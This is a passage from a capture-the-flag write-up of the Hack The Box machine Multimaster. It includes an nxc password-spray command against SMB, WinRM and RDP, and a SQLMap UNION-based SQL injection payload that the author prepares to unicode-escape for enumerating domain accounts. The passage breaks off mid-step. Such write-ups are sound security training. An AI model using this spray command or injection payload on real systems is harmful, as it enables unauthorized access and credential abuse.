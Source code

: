 {% tab title="2. Password Spray Services" %}
{% code overflow="wrap" %}
```bash
nxc smb 10.10.10.179 < smb | winrm | rdp > -u usernames -p clear_passwords | grep +
```
{% endcode %}
{% endtab %}
{% endtabs %}

## Domain Enumeration

### Hacking MSSQL

Not much avenues to go from here, so we need some help. Apparently there is a way to **enumerate domain accounts via an SQLi attack**. Reading [0xdf's walkthough](https://0xdf.gitlab.io/2020/09/19/htb-multimaster.html), which takes information from [this](https://www.netspi.com/blog/technical/network-penetration-testing/hacking-sql-server-procedures-part-4-enumerating-domain-accounts/) article, we can see how this can be done.

When SQLMap detected the SQLi, it gaves up a payload which warned us that is not unicode-escaped (Figure 12). So the first step, is to take this payload and use [Hackvertor](https://portswigger.net/bappstore/65033cbd2c344fbabe57ac060b5dd100) (Figure 15) or [CyberChef](https://gchq.github.io/CyberChef/#recipe=Escape\_Unicode\_Characters\('%5C%5Cu',false,4,true\)) to unicode-escape it ourselves.

{% code overflow="wrap" %}
```bash
# SQLMap's payload
test' UNION ALL SELECT 66,66,66,CHAR(113)+CHAR(120)+CHAR(106)+CHAR(120)+CHAR(113)+CHAR(80)+CHAR(101)+CHAR(67)+CHAR(110)+CHAR(101)+CHAR(88)+CHAR(85)+CHAR(84)+CHAR(108)+CHAR(86)+CHAR(80)+CHAR(66)+CHAR(97)+CHAR(69)+CHAR(71)+CHAR(88)+CHAR(65)+CHAR(83)+CHAR(73)+CHAR(114)+CHAR(67)+CHAR(85)+CHAR(79)+CHAR(119)+CHAR(117)+CHAR(120)+CHAR(122)+CHAR(103)+CHAR(114)+CHAR(122)+CHAR(82)+CHAR(97)+CHAR(79)+CHAR(104)+CHAR(102)+CHAR(113)+CHAR(103)+CHAR(117)+CHAR(119)+CHAR(99)+CHAR(113)+CHAR(112)+CHAR(106)+CHAR(112)+CHAR(113),66-- lysJ
```
{% endcode %}

<figure><img src="../../.gitbook/assets/multi_enum_domain_1.png" alt=""><figcaption><p>Figure 15: Using HackVertor to unicode-escape our payload.</p></figcaption></figure>

Now we need to:
